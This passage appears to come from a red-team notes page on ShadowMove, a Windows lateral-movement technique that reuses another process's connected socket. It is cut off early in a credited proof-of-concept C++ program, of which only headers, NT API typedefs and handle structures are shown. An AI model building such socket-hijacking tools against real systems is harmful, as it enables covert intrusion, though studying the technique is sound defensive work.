 {% hint style="warning" %}
It's important to stress once more, the ShadowMove.exe **does not** **create any TCP connections to the target host.** Instead, it reuses the existing connected socket to `192.168.56.102:80`  between the source and target host, that was established by the nc.exe process on the source system - and this is the key point of this lateral movement technique.
{% endhint %}

## Code

Below is the code [written](https://adepts.of0x.cc/shadowmove-hijack-socket/) by [Juan Manuel Fernández](https://www.twitter.com/@TheXC3LL) which I modified slightly, so that it would compile without errors in my development environment with Visual Studio 2019:

```cpp
// PoC of ShadowMove Gateway by Juan Manuel Fernández (@TheXC3LL) 

#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include <winsock2.h>
#include <Windows.h>
#include <stdio.h>

#pragma comment(lib,"WS2_32")

// Most of the code is adapted from https://github.com/Zer0Mem0ry/WindowsNT-Handle-Scanner/blob/master/FindHandles/main.cpp
#define STATUS_INFO_LENGTH_MISMATCH 0xc0000004
#define SystemHandleInformation 16
#define ObjectNameInformation 1

typedef NTSTATUS(NTAPI* _NtQuerySystemInformation)(
	ULONG SystemInformationClass,
	PVOID SystemInformation,
	ULONG SystemInformationLength,
	PULONG ReturnLength
	);
typedef NTSTATUS(NTAPI* _NtDuplicateObject)(
	HANDLE SourceProcessHandle,
	HANDLE SourceHandle,
	HANDLE TargetProcessHandle,
	PHANDLE TargetHandle,
	ACCESS_MASK DesiredAccess,
	ULONG Attributes,
	ULONG Options
	);
typedef NTSTATUS(NTAPI* _NtQueryObject)(
	HANDLE ObjectHandle,
	ULONG ObjectInformationClass,
	PVOID ObjectInformation,
	ULONG ObjectInformationLength,
	PULONG ReturnLength
	);

typedef struct _SYSTEM_HANDLE
{
	ULONG ProcessId;
	BYTE ObjectTypeNumber;
	BYTE Flags;
	USHORT Handle;
	PVOID Object;
	ACCESS_MASK GrantedAccess;
} SYSTEM_HANDLE, * PSYSTEM_HANDLE;

typedef struct _SYSTEM_HANDLE_INFORMATION
{
```